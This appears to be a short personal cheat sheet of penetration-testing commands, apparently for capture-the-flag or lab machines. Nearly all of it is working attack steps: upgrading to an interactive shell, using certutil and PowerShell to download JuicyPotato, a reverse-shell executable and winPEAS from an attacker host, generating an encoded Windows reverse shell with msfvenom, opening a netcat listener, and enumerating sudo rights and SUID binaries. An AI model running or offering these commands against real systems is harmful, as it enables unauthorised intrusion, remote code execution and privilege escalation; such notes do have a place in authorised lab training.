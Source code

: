 For spawning a shell
python -c 'import pty;pty.spawn("/bin/bash")';


download from attacking to target for windows
certutil -urlcache -f http://10.8.102.117:80/JuicyPotato.exe jp.exe

or 


msfvenom --platform Windows -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=10.8.102.117 LPORT=1234 -f exe -o shell.exe

powershell Invoke-WebRequest -Uri http://10.8.102.117:80/shell.exe -Outfile 'C:\Windows\Temp\shell.exe'

then create listener 
nc -lvnp 1234 


Check command that can run as sudo.
sudo -l


powershell Invoke-WebRequest -Uri http://10.8.102.117:80/winpeas.bat -Outfile 'C:\Windows\Temp\winpeas.bat'



find / -perm +6000 2>/dev/null | grep '/bin/'